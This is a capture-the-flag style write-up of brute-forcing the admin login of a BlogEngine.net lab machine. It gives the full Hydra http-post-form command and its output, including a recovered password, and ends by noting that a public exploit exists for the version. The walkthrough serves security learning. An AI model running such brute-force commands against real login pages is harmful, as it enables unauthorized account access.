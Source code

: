 # Using Hydra to brute-force a HTTP login

There is a login form on the website: http://10.10.166.72/Account/login.aspx?ReturnURL=/admin/

We can try to brute force our way in to this portal.

![Untitled](/hackpark/Untitled%201.png)

## Burp web request

We want to look at the POST request and copy the request into Hydra. This way, we can replace the values of “UserName” and “Password” with ^USER^ / ^PASS^ to be able to fuzz and eventually brute force.

![Untitled](/hackpark/Untitled%202.png)

```bash
# HYDRA Http-post-form
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form

# Hydra specifically crafted web-request
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt [machineIP] http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
[VERBOSE] Page redirected to http://10.10.166.72/
[80][http-post-form] host: **10.10.166.72**   login: **admin**   password: **1qaz2wsx**
[STATUS] attack finished for 10.10.166.72 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-19 15:33:49

```

# Admin Dashboard

After Hydra managed to retrieve the admin credentials, we get redirected to an Administrator dashboard. It seems it is an open source ASP.NET blog management app called “Blogengine.net”. The version is 3.3.6.0.

![Untitled](/hackpark/Untitled%203.png)

# Compromising the machine

Searchsploit quickly reveals that a public exploit is available for this specific version of Blogengine.

![Untitled](/hackpark/Untitled%204.png)
